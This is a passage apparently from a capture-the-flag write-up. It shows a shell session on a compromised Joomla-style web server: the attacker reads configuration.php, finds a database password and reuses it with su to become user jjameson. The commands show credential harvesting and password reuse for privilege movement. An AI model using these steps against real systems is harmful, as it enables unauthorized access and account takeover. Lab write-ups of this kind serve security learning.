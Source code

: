 ```sh
# *  *  *  *  * user-name  command to be executed
```

##### Web Server Files

```sh
cd /var/www/html
sh-4.2$ ls
ls
LICENSE.txt
README.txt
administrator
bin
cache
cli
components
configuration.php
htaccess.txt
images
includes
index.php
language
layouts
libraries
media
modules
plugins
robots.txt
templates
tmp
web.config.txt
```

```sh
sh-4.2$ cat configuration.php
cat configuration.php

...

public $user = 'root';
public $password = 'nv5uz9r3ZEDzVjNu';

...
```

This looks promising!

```sh
sh-4.2$ su jjameson
su jjameson
Password: nv5uz9r3ZEDzVjNu
cd /home/jjameson
ls
user.txt
```
